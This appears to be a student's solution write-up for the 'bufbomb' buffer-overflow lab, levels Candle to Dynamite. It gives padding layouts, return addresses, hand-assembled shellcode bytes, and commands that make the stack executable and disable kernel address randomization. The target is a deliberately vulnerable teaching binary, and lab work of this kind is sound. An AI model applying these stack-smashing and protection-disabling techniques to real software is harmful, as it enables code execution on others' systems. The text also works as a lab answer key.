 # Lab 3
## level 0: Candle
Get address of smoke `08048e20 <smoke>:`.

There is 12 bytes of space for `char buf[12]`, and 4 bytes for `saved ebp`, so we need 16 bytes of padding before smoke address. Remember to use litte-endian.

`00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 20 8e 04 08`

## level 1: Sparkler

In this level, we need to set the parameter of function `fizz(int val)`. 

The pattern should be:
`[16 byte padding to overflow]`+`[fizz addr]`+`[4 byte padding for return address]`+`[cookie]`

So we get:
`00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 c0 8d 04 08 00 00 00 00 f1 0c 6f 46`

## level 2: Firecracker

Have to allow execstack for `bufbomb`.

```
execstack -s bufbomb
```

Look into asm code. `bang()` reads `global_val` with `0x804a1dc`. And function address is `08048d60`.

We can use this asm code to attack.
```
movl $0x466f0cf1,0x804a1dc      # global_value = cookie
push $0x08048d60                # return to bang
ret
```

We also need to know the address of this attacking code, lets put it at `buf[24]`. And the address would be `0xffffb554`

So out input is:
`00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 54 b5 ff ff 00 00 00 00 c7 04 25 dc a1 04 08 f1 0c 6f 46 68 60 8d 04 08 c3`


Here we successfully attacked in gdb mode, but directly execute will cause a segmentation fault.

Need to disable randomization of the kernel.
`sudo sysctl -w kernel.randomize_va_space=0`

## level 3: Dynamite

Attack with code:
```
movl $0x466f0cf1,%eax          # ret val = cookie
push $0x08049019                # return to test
ret
```
Input pattern:
`[our code]` + `[original saved $ebp]` + `address of buf[0]`

Input:
`b8 f1 0c 6f 46 68 1e 90 04 08 c3 00 68 b5 ff ff 3c b5 ff ff`
